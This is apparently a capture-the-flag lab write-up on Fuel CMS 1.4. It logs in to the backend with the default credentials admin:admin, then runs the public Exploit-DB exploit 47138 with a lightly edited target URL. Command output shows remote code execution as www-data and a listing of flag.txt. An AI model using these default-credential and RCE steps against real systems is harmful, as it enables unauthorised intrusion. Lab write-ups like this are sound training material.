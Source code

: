 ### Fuel CMS

We can access to backend with `admin:admin`:

![](Pasted%20image%2020230724084426.png)

We know that we are running version 1.4

### RCE

Let's try this:

https://www.exploit-db.com/exploits/47138

Let's edit a bit:

```python
..
..
import requests
import urllib

url = "http://10.10.14.144"
..
..
```

We launch `Burpsuite` but we turn off intercept.

```bash
$ python2 47138.py
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
cmd:ls -l /home/www-data
systemtotal 4
-rw-r--r-- 1 root root 34 Jul 26  2019 flag.txt
```
